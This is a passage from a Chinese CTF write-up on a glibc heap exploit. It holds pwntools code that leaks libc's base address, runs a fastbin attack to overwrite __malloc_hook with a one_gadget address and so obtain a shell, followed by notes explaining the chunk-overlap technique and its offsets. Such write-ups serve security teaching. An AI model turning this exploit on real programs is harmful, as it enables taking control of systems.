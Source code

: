 ```
r.recv(0x90 + 0x10)
fd = u64( r.recv(8) )
libc_unsort = fd
libc_base = libc_unsort - 0x3c4b78

#hijack overflow
#the present idx_table has inuse logs: 0 , 1 , 3 ,wait-queue: 2 , 4 , 5 , 6 , 7 , ...
new(0x90) #idx.2 clean the heap-bins environment
new(0x10) #idx.4 for overflow
new(0x60) #idx.5 to fastbin[5] 
new(0x10) #idx.6 for protecting top_chunk merge
delet(5) #NOTICE: idx.5 recycled after here !!!
malloc_hook_fkchunk = libc_base + 0x3c4aed
payload_hj = 'A'*0x10 + p64(0) + p64(0x71) + p64(malloc_hook_fkchunk)
edit(4,len(payload_hj),payload_hj)

#hijack attack
new(0x60) #idx.5
new(0x60) #idx.7
onegadget_addr = libc_base + 0x4526a
payload_hj2onegadget = 'A'*3 + p64(0) + p64(0) + p64(onegadget_addr)
edit(7,len(payload_hj2onegadget),payload_hj2onegadget)

#fire
new(0x100)
r.interactive()
```

*注释：

1.step2就是溢出“受孕”过程，0x121就是通过溢出伪造的size字段值，0x140 = 0xa0 * 2

2.step4中的payload_crrct是将fetus chunk的pre_size和size字段写为正确合法值

3.由于fetus chunk被free后unsorted bin里实际上它自己（大家可以自己回溯exp去看），所以它的fd和bk都是指向unsorted bin表头的，因此这里泄露fd就足够了

4.#hijack overflow那里最开始new的0x90是为了清空bin环境，使所有的bins里面都没有东西（本来bins里有一个用户区大小为0x90的fetus chunk），这样再分配堆块的时候就是从top chunk往下割了，避免了从原来的bins中割一块给你：那为什么要这样呢？因为不清空bin环境exp容易出问题，本文后面将会举例说明

5.malloc_hook_fkchunk的地址计算别忘了错位构造出的size字段前还有个pre_size字段

6.’A’*3 + p64(0) + p64(0)是因为从错位构造的size字段末尾到malloc_hook直接还有0x13个字节的数据

此外，多说一句，关于堆块受孕过程，我们通过溢出伪造的size大小其实实际上只要能把fd字段包含进去就足够了，不必把整个fetus chunk都弄进去。



## 四、不同exp引发的深入思考

文章开头我说过，我们用的exploit和网上公开流行的版本用的方法并不一样，主要区别就在于泄露libc_base的原理是不同的

这里给出网上流行的经典版本exp的几个链接：

[exp_classical1](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/fastbin_attack/#_27)

[exp_classical2](https://blog.csdn.net/qq_35519254/article/details/78213962https://blog.csdn.net/qq_35519254/article/details/78213962)

